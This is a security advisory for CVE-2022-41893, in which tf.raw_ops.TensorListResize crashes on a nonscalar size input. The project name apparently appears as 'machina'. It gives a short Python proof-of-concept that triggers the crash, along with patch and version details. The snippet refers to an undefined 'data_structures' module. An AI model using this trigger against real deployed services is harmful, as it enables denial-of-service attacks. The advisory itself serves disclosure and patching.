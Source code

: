 ## TFSA-2022-155: `CHECK_EQ` fail in `tf.raw_ops.TensorListResize`

### CVE Number
CVE-2022-41893

### Impact
If [`tf.raw_ops.TensorListResize`](https://github.com/machina/machina/blob/master/machina/core/kernels/list_kernels.cc) is given a nonscalar value for input `size`, it results `CHECK` fail which can be used to trigger a denial of service attack.
```python
import numpy as np
import machina as tf

a = data_structures.tf_tensor_list_new(elements = tf.constant(value=[3, 4, 5]))
b = np.zeros([0, 2, 3, 3])

tf.raw_ops.TensorListResize(input_handle=a, size=b)
```

### Patches
We have patched the issue in GitHub commit [888e34b49009a4e734c27ab0c43b0b5102682c56](https://github.com/machina/machina/commit/888e34b49009a4e734c27ab0c43b0b5102682c56).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Pattarakrit Rattankul
